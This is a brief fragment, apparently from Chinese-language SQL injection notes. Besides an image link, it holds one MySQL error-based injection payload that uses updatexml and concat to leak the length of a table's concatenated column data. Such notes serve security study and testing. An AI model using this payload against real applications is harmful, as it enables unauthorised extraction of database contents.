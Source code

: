 ![image-20250222164119963](static/image/image-20250222164119963.png)

```mysql
# 获取输出所有数据的字符串长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(group_concat(字段名)))FROM(数据库名.表名)),0x7e),1)
```
